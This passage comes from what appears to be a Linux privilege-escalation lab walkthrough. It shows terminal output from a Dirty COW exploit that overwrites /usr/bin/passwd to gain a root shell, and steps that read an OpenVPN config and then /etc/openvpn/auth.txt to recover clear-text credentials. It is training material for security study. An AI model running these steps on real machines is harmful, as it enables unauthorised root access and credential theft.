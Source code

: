~~~
Backing up /usr/bin/passwd to /tmp/bak
mmap 76334000

madvise 0

ptrace 0

TCM@debian:~/tools/dirtycow$ passwd
root@debian:/home/user/tools/dirtycow# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user/tools/dirtycow# whoami
root
~~~

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

~~~
root@debian:/home/user/tools/dirtycow# cp /tmp/bak /usr/bin/passwd 
~~~

# [Task 4] Privilege Escalation - Stored Passwords (Config Files)

**Exploitation**

Linux VM

1. In command prompt type: `cat /home/user/myvpn.ovpn`
2. From the output, make note of the value of the “auth-user-pass” directive.

~~~
TCM@debian:~$ cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0
~~~

3. In command prompt type: `cat /etc/openvpn/auth.txt`
4. From the output, make note of the clear-text credentials.
